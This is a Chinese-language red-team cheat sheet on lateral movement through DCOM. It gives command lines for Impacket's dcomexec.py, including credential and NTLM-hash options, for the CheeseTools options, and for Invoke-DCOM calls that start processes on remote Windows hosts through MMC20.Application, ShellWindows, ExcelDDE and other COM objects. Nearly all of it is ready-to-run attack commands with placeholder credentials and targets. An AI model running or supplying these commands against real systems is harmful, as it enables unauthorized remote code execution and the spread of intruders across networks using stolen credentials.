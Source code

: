 	DCOM 是 COM（组件对象模型）的扩展，它允许应用程序在远程计算机上实例化和访问 COM 对象的属性和方法。
 #### Impacket 
	DCOMExec.py
	>dcomexec.py [-h] [-share SHARE] [-nooutput] [-ts] [-debug] [-codec CODEC] [-object [{ShellWindows,ShellBrowserWindow,MMC20}]] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-A authfile] [-keytab KEYTAB] target [command ...]
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>'
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>' 'ipconfig'
	>
	>python3 dcomexec.py -object MMC20 -silentcommand -debug $DOMAIN/$USER:$PASSWORD\$@$HOST 'notepad.exe'
	-object MMC20 是指定我们希望实例化 MMC20.Application 对象
	-silentcommand 无回显执行
 #### CheeseTools
  	https://github.com/klezVirus/CheeseTools
	https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/
	-t, --target=VALUE         目标机器
	-b, --binary=VALUE         二进制文件: powershell.exe
	-a, --args=VALUE           Arguments: -enc <blah>
	-m, --method=VALUE         Methods: MMC20Application, ShellWindows,
	                            ShellBrowserWindow, ExcelDDE, VisioAddonEx,
	                            OutlookShellEx, ExcelXLL, VisioExecLine, 
	                            OfficeMacro
	-r, --reg, --registry      Enable registry manipulation
	-h, -?, --help             Show Help

	当前方法: MMC20.Application, ShellWindows, ShellBrowserWindow, ExcelDDE, VisioAddonEx, OutlookShellEx, ExcelXLL, VisioExecLine, OfficeMacro
 #### Invoke-DCOM
  	https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Invoke-DCOM.ps1
	>Import-Module .\Invoke-DCOM.ps1
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method MMC20.Application -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ExcelDDE -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ServiceStart "MyService"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellBrowserWindow -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellWindows -Command "calc.exe"